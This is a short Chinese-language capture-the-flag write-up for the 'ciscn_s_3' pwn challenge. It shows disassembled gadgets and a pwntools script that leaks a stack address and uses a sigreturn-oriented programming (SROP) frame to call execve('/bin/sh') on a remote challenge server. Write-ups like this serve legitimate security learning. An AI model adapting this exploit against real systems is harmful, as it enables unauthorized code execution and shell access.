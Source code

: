 另外还提供了 sys_execve 和 sys_sigreturn 的调用号：

```asm
00000000004004d6 <gadgets>:
  4004d6:	55                   	push   rbp
  4004d7:	48 89 e5             	mov    rbp,rsp
  4004da:	48 c7 c0 0f 00 00 00 	mov    rax,0xf
  4004e1:	c3                   	ret
  4004e2:	48 c7 c0 3b 00 00 00 	mov    rax,0x3b
  4004e9:	c3                   	ret
  4004ea:	90                   	nop
  4004eb:	5d                   	pop    rbp
  4004ec:	c3                   	ret
```

这题相对简单一些，可以写 `"/bin/sh"` 到栈上，然后通过 write 的输出计算出地址，最后直接调 SROP。

## Exploit

脚本如下：

```python
#!/usr/bin/env python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
#context.terminal = ['lxterminal', '-e']

local = 0
if local:
  p = process('./ciscn_s_3')
else:
	p = remote('node3.buuoj.cn', 28526)

#gdb.attach(p)

vuln_addr = 0x4004f1
set_sigreturn_addr = 0x4004da
set_execve_addr = 0x4004e2
syscall_ret = 0x400517

payload = '/bin/sh\x00'.ljust(16, 'A') + p64(vuln_addr)
raw_input('@')
p.send(payload)
p.recv(32)
stack_addr = u64(p.recv(8))
info('stack_addr = ' + hex(stack_addr))

bin_sh_addr = stack_addr - 0x118
payload = p64(set_sigreturn_addr) + p64(syscall_ret)
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = bin_sh_addr
frame.rip = syscall_ret
payload += str(frame)
raw_input('@')
p.send(payload)

p.interactive()
```
